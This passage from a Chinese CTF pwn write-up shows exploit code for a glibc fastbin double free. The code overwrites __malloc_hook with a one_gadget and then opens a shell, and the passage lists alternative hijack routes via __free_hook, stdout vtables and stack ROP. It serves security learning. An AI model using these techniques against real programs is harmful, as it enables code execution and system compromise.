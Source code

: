 ```
add(0x60, "b"*0x8, "5")
dele(4)
dele(5)
dele(4)
#malloc_hook-0x13, fake fastbin size 0x7f to pass fastbin_index check
add(0x60, p64(malloc_hook-0x13-0x10), "6") 
add(0x60, "e"*0x8, "7")
add(0x60, "f"*0x8, "8")
add(0x60, "a"*0x13+p64(libc_base+one_gadget), "9")
# directly malloc doesn't work
# double free triggers error and it will call malloc 
dele(6)
dele(6)
p.interactive()
```



## 3、思考

​ 该题是一道典型的Double Free&amp;Fastbin Attack，由于保护全开，常规的改写got表在这里并不适用。可以说通过这一道题可以学到CTF很多知识。这道题不难，但考查的知识点却很多，有Double Free漏洞原理、chunk数据结构、Fast bin、Unsorted bin、hook机制等等，新手要做这一道题首先必须深入掌握Glibc heap的管理机制，只有扎实掌握了基本知识点并能熟练运用，以后再碰到这种组合拳类型的题就能迎刃而解了。

​ 当我们学习得更多的时候，会发现这道题还有几种其他的解法，欢迎大家实践讨论。例如：
- 利用__free_hook劫持程序流程。
- 利用Fastbin attack修改**_IO_2_1_stdout** 的vtable指针指向one_gadget。也可以直接伪造一个填充one_gadget的chunk，将**_IO_jump_t**的地址更改为伪造的chunk地址。
- 利用Fastbin attack攻击栈，将malloc申请的堆迁移到栈中，利用ROP来getshell。
作为一个CTF PWN萌新，以上内容肯定有不对的地方，恳请大家批评指正。
